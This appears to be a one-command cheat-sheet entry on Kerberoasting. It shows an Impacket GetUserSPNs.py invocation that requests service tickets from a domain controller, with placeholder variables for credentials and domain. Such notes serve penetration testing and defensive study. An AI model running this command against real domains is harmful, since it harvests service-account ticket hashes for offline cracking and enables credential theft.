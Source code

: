 # Kerberos

## Kerberoast - script

```
GetUserSPNs.py -request -dc-ip <domain-controller> <domain>/<user>:<password>
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
